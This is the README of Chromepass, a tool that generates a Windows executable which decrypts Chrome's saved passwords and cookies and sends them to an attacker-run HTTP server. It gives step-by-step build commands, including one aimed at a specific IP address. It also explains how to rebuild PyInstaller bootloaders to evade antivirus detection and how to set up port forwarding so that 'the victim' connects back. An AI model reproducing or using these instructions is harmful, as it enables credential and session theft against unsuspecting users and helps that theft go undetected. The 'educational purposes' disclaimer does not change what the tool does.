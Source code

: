 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://i.imgur.com/WtaFA6c.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Chrome saved paswords
  - Send a file with the login/password combinations and cookies remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message

---

### AV Detection!
This can be undetected with a very easy step detailed below. The reason why it's detected is because many AVs get tripped by the popular signatures of pyinstaller. To mitigate this, you can build the bootloaders manually. You can do this on a clean VM if you wish:
 - Go through the [Installation](#installation) first
 - Open an administrator powershell
 - Run the following code and wait for it to finish, it might take a while: 
```powershell
Set-ExecutionPolicy remotesigned -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1')); choco install -y python vcbuildtools git
```
 - Close the powershell window and open a new one as administrator again.
 - Go into the chromepass directory, if you're not in it already.
 - Run the following code: 
  ```powershell
     git clone https://github.com/pyinstaller/pyinstaller.git
     pip uninstall pyinstaller -y
     cd pyinstaller/bootloader
     python waf all
     cd ..
     pip install .
  ```
 - Now you can follow the [Usage](#usage) normally and your executable is no longer detected by most AVs. There are some additional things you can do to make it completely undetectable. I'll leave you to discover what some of those things are.  
 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.6+

### Installation

Chromepass requires Windows to run! Support for linux and MacOS may be added soon

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

```powershell
cd chromepass
pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+
If the errors persist, try:
```powershell
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```  

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
> python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message "An Error has happened"
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saved in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.

If you'd like additional notes on evading AV, refer to [AV Detection](#av-detection)  

### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80), so that when the victim runs the client it is able to connect to the server on port 80.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> MIT </a>

---
[![Code Intelligence Status](https://scrutinizer-ci.com/g/darkarp/chromepass/badges/code-intelligence.svg?b=master)](https://scrutinizer-ci.com/code-intelligence)  

[Python]: <https://www.python.org/downloads/>
